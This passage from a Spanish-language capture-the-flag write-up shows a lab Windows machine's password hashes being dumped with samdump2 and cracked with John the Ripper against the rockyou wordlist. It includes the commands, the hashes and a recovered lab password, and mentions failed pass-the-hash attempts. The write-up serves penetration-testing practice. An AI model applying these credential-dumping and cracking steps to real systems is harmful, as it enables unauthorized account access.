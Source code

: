 ```bash
❱ samdump2 SYSTEM SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::   
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

Tres usuarios y dos de ellos dicen *disabled* (ni idea que significara en el contexto), tomemos la última parte de los hashes (que si nos fijamos, es la única parte que es dinámica) y guardémosla en un archivo:

```bash
❱ cat ntlm.hashes 
Administrator:31d6cfe0d16ae931b73c59d7e0c089c0   
Guest:31d6cfe0d16ae931b73c59d7e0c089c0
L4mpje:26112010952d963c8dc4217daec986d9
```

Bien...

Estuve probando con **evil-winrm**, **psexec**, **wmiexec** y **crackmapexec** con los hashes para hacer *PassTheHash*, pero no tuve éxito, así que solo nos queda intentar crackearlos, usando [John The Ripper](https://www.redeszone.net/seguridad-informatica/john-the-ripper-crackear-contrasenas/) logramos esto, debemos pasarle unos parámetros:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ntlm.hashes
```

* `--wordlist`: El archivo con el que queremos que itere cada hash en busca de similitudes.
* `--format`: El formato en el que están los hashes, en nuestro caso **NTLM** (o **NT** para *john*).

Tenemos:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ntlm.hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:02 DONE (2021-06-03 00:30) 0.8849g/s 4157Kp/s 4157Kc/s 4159KC/s burg772v..burdy1   
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

```bash
❱ john --show --format=NT ntlm.hashes 
Administrator:
Guest:
L4mpje:bureaulampje

3 password hashes cracked, 0 left
```
